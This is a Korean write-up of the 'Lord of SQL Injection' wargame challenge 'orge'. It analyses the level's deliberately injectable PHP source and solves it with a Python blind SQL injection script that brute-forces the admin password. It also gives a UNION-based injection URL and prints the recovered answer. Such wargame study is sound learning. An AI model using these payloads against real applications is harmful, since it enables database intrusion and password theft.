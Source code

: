 # Lord of SQL Injection No.7 - orge

## 문제 출제 의도

OR, AND를 사용하지 않고 Blind SQL Injection을 수행하여 원하는 문자열을 얻어낼 수 있는지 확인한다.

또는 UNION 구문과 LIMIT을 이용하여 원하는 문자열을 얻어낼 수 있는지 확인한다.

## 소스 코드 분석

orge 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, pw에 대소문자 구분 없이 `or`, `and` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* `$result['id']`에 "0"을 제외한 어떤 값이든 들어 있으면 응답에 "Hello "와 $result[id] 값을 붙인 문자열이 포함된다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같음'이다. 즉, 실제 데이터베이스에 저장된 pw를 알아내서 전달해야 한다.

-----

## Solution
    
1. SUBSTR 함수 활용

    Blind SQL Injection 문제이므로 4번 orc 문제에서 이용한 코드를 수정하여 활용한다.
    
    ```python
    import urllib.request
    from urllib.parse import quote

    key = ""

    # 4번 orc 문제에서 이용한 코드에서 추가된 부분
    pwlen = 0 # pw의 길이값을 저장한 변수

    for i in range(1, 20): # pw의 길이를 알아내기 위한 반복문. 길이가 1보다 크거나 같고 20보다 작다는 전제 하에 작동한다. 만약 길이를 알아내는 데 실패하면 범위를 넓힌다.
        url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
        data = "' || id='admin' && length(pw)='{}'#".format(str(i)) # length() 함수를 통해 pw의 길이를 알아내는 부분이다.
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("Hello admin") != -1:
            pwlen = i # pw의 길이를 pwlen 변수에 저장한다.
            print('pw length : ' + str(pwlen))
            break
    # /4번 orc 문제에서 이용한 코드에서 추가된 부분

    for i in range(1, pwlen + 1): # i에는 1부터 pwlen까지 들어가도록 반복문을 구성
        for j in range(32, 127):
            url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
            data = "' || id='admin' && substr(pw, 1, {})='{}'#".format( # or, and 를 ||, && 로 수정
                str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)

            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
            re.add_header(
                "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
            )

            req = urllib.request.urlopen(re)

            if str(req.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ```

    이러한 코드를 실행하면 결과값으로 6c864dec 를 출력한다.
    이를 GET방식으로 pw의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=6c864dec
    ```

2. UNION 구문 및 LIMIT 구문 이용 (2017년 9월 7일 목요일 기준 실행 불가능)

    7번 문제는 UNION 구문을 필터링 하지 않고 있으므로 UNION을 통해 바로 pw값을 알아내는 시도를 해볼 수 있다.

    ```
    http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=-1' || @a:=pw %26%26 0 union select @a-- -
    ```

    ```
    select id from prob_orge where id='guest' and pw='' || @a:=pw && 0 union select @a-- -'
    ```

    ```
    Hello 6c864dec
    ```

    2017년 9월 7일 목요일 현재 SELECT 구문 입력이 차단된 것으로 보인다. SELECT 구문이 포함된 SQL Injection 시도 시 무한 로딩에 걸린다.